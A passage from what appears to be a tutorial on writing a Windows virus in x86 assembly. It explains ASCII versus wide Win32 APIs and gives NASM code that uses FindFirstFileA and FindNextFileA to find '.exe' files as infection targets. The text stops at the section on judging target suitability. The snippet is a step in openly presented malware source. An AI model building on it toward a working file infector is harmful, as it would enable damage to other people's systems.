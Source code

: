 To keep things simple I have been limiting my code to ASCII compatibility which means using [the "A" variant of some win32 APIs](https://docs.microsoft.com/en-us/windows/desktop/intl/unicode-in-the-windows-api) (for ASCII) vs the "W" variant (for Wide Chars). Remember to drop the "A" suffix when looking up documentation (e.g. search for `FindFirstFile` in the `win32.hlp` index not `FindFirstFileA`). Assembly programmers have to care about "A" vs "W" where normally the Visual C++ runtime hides this distinction from programmers with compile time magic.

To find files in the current directory requires using a combination of [`FindFirstFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findfirstfilea) and [`FindNextFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findnextfilea). The first is used to start a directory traversal and the second is used to continue it. By providing a pointer to the null terminated string `"*.exe"` as the `lpFileName` I'm able to start a traversal of all executables (if any!) in the current directory.

```nasm{numberLines:true}
findfirst:
  mov eax, offset infectFilter
  mov ebx, offset findData
  call FindFirstFileA, eax, ebx

  ; If we got an invalid handle from FindFirstFileA that means there were no EXEs
  ; in the directory. Jump to error to handle this case
  cmp eax, INVALID_HANDLE_VALUE
  je error
  mov [findHandle], eax

targetfound:
  ; Otherwise we have a potential .exe target to examine
  ; Copy the name of the file from the find data to our targetFile var.
  mov eax, offset targetFile
  mov ebx, offset findData.cFileName
  call lstrcpy, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, map the target file.
  jmp mapfile

; If we're here it means the targetFile wasn't any good.
; Time to look at the next available .exe file using FindNextFile
findnext:
  mov eax, [findHandle]
  mov ebx, offset findData
  call FindNextFileA, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, we found a potential target. Jump back
  ; to targetFound.
  jmp targetfound
```

# Deciding if a target is suitable

